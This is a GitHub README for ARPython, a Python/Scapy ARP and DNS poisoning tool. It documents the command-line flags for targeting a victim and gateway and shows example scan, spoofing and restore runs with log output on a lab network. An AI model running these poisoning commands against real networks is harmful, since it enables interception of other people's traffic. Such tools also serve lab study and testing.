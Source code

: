 # ARPython
An APR and DNS poisoning tool writting in python.

### Requirements

1. Linux based system
2. Python 2.7
3. Scapy installed
4. Python TKinter installed if you want to use the GUI

### Usage

To use the tool you will need to download/clone all the files. If you don't want to use the GUI you can leave the gui.py file out.
This script needs elevated rights for some actions. To launch navigate to the folder and use command `sudo python arppython.py`.
A help command will come up that will be pretty self explanatory. All possible flags will be listed here though.

`-h. --help` - Prints the help screen

`-g, --gui` - Opens the GUI

`-a, --arp {s,silent,n,normal,r,restore}` - Use this command to start ARP poisoning. Specify either the silent or non-silent method or the restore method which will restore the ARP tables

`-p, --packets AMOUNT` - Specify a custom amount of packets for the normal ARP poison attack

`-vi, --victim VICTIM` - Specify the IP address of the victim

`-gt, --gateway GATEWAY` - Specify the IP address of the gateway to use for the attack

`-vm, --victimmac VICTIMMAC` - Specify the mac address of the victim, can be left blank. If blank the script with grab the mac address from the specified victim IP. If you want multiple victims just separate them by comma and the program will start attacking them simultaneously

`-gm, --gatewaymac GATEWAYMAC` - Specify the mac address of the gateway, can be left blank just as the victim MAC

`-am, --attackermac ATTACKERMAC` - Specify a custom attacker MAC address for the attacker, if left blank the current machines MAC will be used

`-s, --scan` - Scans which network interfaces are available and prints information about them

`-si, --scaniface IFACE` - Scans a given network interface for active IP and MAC addresses. Just specifying the IP address is enough for this command

`-d, --debug` - Set the logging level to debug

`-v, --verbose` - Set the logging level to verbose

When the tool is busy it can at any point be interrupted by using `CTRL + C`. All the logging info will also be saved to log.txt where you can see exactly what happened.

### Examples

Some examples to show usage

#####Doing a scan, scan interface and then normal ARP poisoning attack with 5 packets

```buildoutcfg
sudo python arpython.py -s
2019-03-31 22:50:35,567 - INFO - Scanning for interfaces
2019-03-31 22:50:35,569 - INFO - The following interfaces are present: 
2019-03-31 22:50:35,569 - INFO - 10.0.3.0/24, enp0s8
2019-03-31 22:50:35,569 - INFO - 169.254.0.0/16, enp0s3
2019-03-31 22:50:35,569 - INFO - 192.168.56.0/24, enp0s3

sudo python arpython.py -si 192.168.56
2019-03-31 22:50:58,794 - INFO - Matching the interface
2019-03-31 22:50:58,795 - INFO - Scanning for devices
2019-03-31 22:50:58,795 - INFO - Using scapy arping with 192.168.56.0/24 on enp0s3
2019-03-31 22:51:04,040 - INFO - 0a:00:27:00:00:10 192.168.56.1
2019-03-31 22:51:04,040 - INFO - 08:00:27:92:de:10 192.168.56.100

sudo python arpython.py -a n -vi 192.168.56.100 -gt 192.168.56.1 -p 5
2019-03-31 22:53:54,270 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 22:53:54,377 - INFO - 08:00:27:92:de:10
2019-03-31 22:53:54,378 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 22:53:54,473 - INFO - 0a:00:27:00:00:10
2019-03-31 22:53:54,473 - INFO - Starting ARP Poison
2019-03-31 22:53:54,474 - INFO - Start spoofing network on 192.168.56.100
2019-03-31 22:53:54,474 - INFO - Starting iteration 0 for 192.168.56.100
2019-03-31 22:53:54,475 - INFO - Spoofing 192.168.56.100
.
.
2019-03-31 22:54:02,907 - INFO - Starting iteration 4 for 192.168.56.100
2019-03-31 22:54:02,908 - INFO - Spoofing 192.168.56.100
2019-03-31 22:54:05,028 - INFO - Done spoofing

sudo python arpython.py -a r -vi 192.168.56.100 -gt 192.168.56.1
2019-03-31 23:05:54,418 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 23:05:54,553 - INFO - 08:00:27:92:de:10
2019-03-31 23:05:54,553 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 23:05:54,637 - INFO - 0a:00:27:00:00:10
2019-03-31 23:05:54,638 - INFO - Starting ARP Restore
2019-03-31 23:05:54,640 - INFO - Starting ARP restoration for 192.168.56.100
2019-03-31 23:05:54,758 - INFO - Restoration successful
```